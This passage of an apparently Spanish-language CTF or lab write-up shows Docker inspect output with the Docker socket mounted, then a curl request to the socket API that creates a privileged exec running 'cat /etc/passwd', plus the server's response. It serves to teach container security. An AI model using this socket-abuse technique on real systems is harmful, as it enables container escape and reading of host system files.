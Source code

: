```json
               "IPAddress":"172.17.0.2",
               "IPPrefixLen":16,
               "IPv6Gateway":"",
               "GlobalIPv6Address":"",
               "GlobalIPv6PrefixLen":0,
               "MacAddress":"02:42:ac:11:00:02",
               "DriverOpts":null
            }
         }
      },
      "Mounts":[
         {
            "Type":"bind",
            "Source":"/var/run/docker.sock",
            "Destination":"/var/run/docker.sock",
            "Mode":"",
            "RW":true,
            "Propagation":"rprivate"
         }
      ]
   }
]
```

Listones, podemos extraer el nombre y el ID del contenedor, pero nada más, pues busquemos en internet como podemos aprovecharnos del demonio :)

> Exposing /var/run/docker.sock could lead to full environment takeover. [Dejandayoff.com](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

Encontramos varias maneras con las cuales podemos romperlo. Podemos usar la opción `exec`, que simplemente cuando sea llamada será ejecutada sobre el contenedor. Acá podemos indicarle el comando que queremos ejecutar:

* [Riesgos al tener el demonio `/var/run/docker.sock` accesible - Stackoverflow.com](https://stackoverflow.com/questions/40844197/what-is-the-docker-security-risk-of-var-run-docker-sock).
* [Peligros de exponer el demonio `docker.sock` - Dejandayoff.com](https://dejandayoff.com/the-danger-of-exposing-docker.sock/).

```bash
root@2d24bf61767c:~# curl -i -s --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http://localhost/containers/2d24bf61767ce2a7a78e842ebc7534db8eb1ea5a5ec21bb735e472332b8f9ca2/exec
HTTP/1.1 201 Created
Api-Version: 1.40
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Tue, 22 Dec 2020 23:28:09 GMT
Content-Length: 74

{"Id":"eff6b5d22c4b640f022d8f98b253a314b0a7cda0669ca1581d6916060d8dabdc"}
```
